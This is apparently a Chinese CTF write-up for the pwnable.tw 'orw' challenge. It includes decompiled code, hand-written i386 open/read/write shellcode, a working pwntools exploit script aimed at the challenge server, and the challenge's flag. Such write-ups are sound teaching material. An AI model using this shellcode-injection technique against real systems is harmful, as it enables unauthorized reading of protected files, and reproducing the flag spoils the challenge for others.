 这道题的要求是只能使用 `open`、`read`、`write` 这三种系统调用。用 IDA 进入后看它的大概逻辑，main 函数是这样子的：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

这道题的意思就是读长度不大于两百的字符串然后执行，`orw_seccomp` 应该就是设置白名单。（以后有时间再分析，现在知道是这个功能。）那我们的目标就是编写符合要求的 shellcode。

做完第一题可以知道 flag 保存在了 `\home\xxx\flag` 中，而本题我们只需要控制流首先 open，再 read，最后 write 就可以了。当然这需要对 Linux 系统中断有一定的了解。

对于文件描述符 fd，参照 https://en.wikipedia.org/wiki/File_descriptor ，0，1，2 分别代表 stdin、stdout、stderr，而每次调用 open 时会分配一个新的 fd（在这里就是 3）。

伪代码表示为：

```c
char *file = "/home/orw/flag";
sys_open(file, 0, 0);
sys_read(filefd, file, 0x20); 	// stdfile 3
sys_write(stdout, file, 0x20); 	// stdout 1
```

那么汇编怎么写呢。。我手动构造一下

```assembly
; sys_open
push 0x00006761	; "\x00\x00ga"
push 0x6c662f77	; "lf/w"
push 0x726f2f65	; "ro/e"
push 0x6d6f682f	; "moh/"
mov eax, 5
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
; sys_read
mov eax, 3
mov ebx, 3
mov ecx, esp
mov edx, 0x30
int 0x80
; sys_write
mov eax, 4
mov ebx, 1
int 0x80
```

嗯。。发现自己 pwntools 的很多基础命令都有点忘了。

```python
context(os = 'linux',arch='i386',log_level='debug')
```

最后构造的 payload 如下。。就能拿到 flag 了。

```python
from pwn import *

# p = process('./orw')
p = remote('chall.pwnable.tw', 10001)
context(os = 'linux',arch='i386',log_level='debug')

shellcode = ''
shellcode += asm('''
push 0x00006761
push 0x6c662f77
push 0x726f2f65
push 0x6d6f682f
mov eax, 5
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
mov eax, 3
mov ebx, 3
mov ecx, esp
mov edx, 0x30
int 0x80
mov eax, 4
mov ebx, 1
int 0x80
''')

p.sendlineafter("shellcode:", shellcode)
print(p.recv())
```

`FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}`

被自己蠢哭。。